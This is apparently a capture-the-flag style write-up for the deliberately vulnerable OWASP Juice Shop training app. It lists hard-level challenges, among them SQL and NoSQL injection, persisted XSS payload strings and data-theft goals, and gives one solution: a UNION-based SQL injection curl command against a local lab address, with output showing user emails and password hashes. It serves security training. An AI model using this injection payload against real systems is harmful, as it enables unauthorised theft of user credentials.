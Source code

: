 # Level 4 - Hard Challenges

## Challenges

| Challenge | Description | Status |
| --- | --- | --- |
| Access Log | Gain access to any access log file of the server. | :heavy_minus_sign:
| Christmas Special | Order the Christmas special offer of 2014. | :heavy_minus_sign:
| DLP Failure Tier 1 | Identify an unsafe product that was removed from the shop and inform the shop which ingredients are dangerous. | :heavy_minus_sign:
| Easter Egg Tier 1 | Find the hidden easter egg. | :heavy_minus_sign:
| Easter Egg Tier 2 | Apply some advanced cryptanalysis to find the real easter egg. | :heavy_minus_sign:
| Expired Coupon | Successfully redeem an expired campaign coupon code. | :heavy_minus_sign:
| Forgotten Developer Backup | Access a developer's forgotten backup file. | :heavy_minus_sign:
| Forgotten Sales Backup | Access a salesman's forgotten backup file. | :heavy_minus_sign:
| GDPR Compliance Tier 2 | Steal someone else's personal data without using Injection. | :heavy_minus_sign:
| Login Bjoern | Log in with Bjoern's Gmail account without previously changing his password, applying SQL Injection, or hacking his Google account. | :heavy_minus_sign:
| Misplaced Signature File | Access a misplaced SIEM signature file. | :heavy_minus_sign:
| NoSQL Injection Tier 1 | Let the server sleep for some time. (It has done more than enough hard work for you) | :heavy_minus_sign:
| NoSQL Injection Tier 2 | Update multiple product reviews at the same time. | :heavy_minus_sign:
| Redirects Tier 2 | Wherever you go, there you are. | :heavy_minus_sign:
| Reset Bender's Password | Reset Bender's password via the Forgot Password mechanism with the original answer to his security question. | :heavy_minus_sign:
| Steganography Tier 1 | Rat out a notorious character hiding in plain sight in the shop. (Mention the exact name of the character) | :heavy_minus_sign:
| Typosquatting Tier 1 | Inform the shop about a typosquatting trick it has become victim of. (Mention the exact name of the culprit) | :heavy_minus_sign:
| [User Credentials](#user-credentials) | Retrieve a list of all user credentials via SQL Injection | :heavy_minus_sign:
| Vulnerable Library | Inform the shop about a vulnerable library it is using. (Mention the exact library name and version in your comment) | :heavy_minus_sign:
| XSS Tier 4 | Perform a persisted XSS attack with `<iframe src="javascript:alert('xss')">` bypassing a server-side security mechanism. | :heavy_minus_sign:
| XSS Tier 5 | Perform a persisted XSS attack with `<iframe src="javascript:alert('xss')">` through an HTTP header. | :heavy_minus_sign:

## Solutions

### User Credentials

> Retrieve a list of all user credentials via SQL Injection

* Solved? :white_check_mark:
* Tools Used: Chrome

This one I stumbled upon by accident. I basically was looking at different endpoints, and attempting SQL injection for another challenge. My curl command looked like so, and the next time I visited the site in Chrome, I saw a nice green banner.

```bash
curl "http://172.16.189.131:3000/rest/products/search?q=Forensic'%20or%201=2))%20UNION%20ALL%20SELECT%20id,email%20as%20name,password%20as%20description,1%20as%20price,null,null,null,null%20from%20users--" -s | jq
{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "admin@juice-sh.op",
      "description": "0192023a7bbd73250516f069df18b500",
      "price": 1,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": 2,
      "name": "jim@juice-sh.op",
      "description": "e541ca7ecf72b8d1286474fc613e5e45",
      "price": 1,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    }, 
    /* etc */
  ]
}
```

<img src="images/4-users-sql-injection-solved.png">


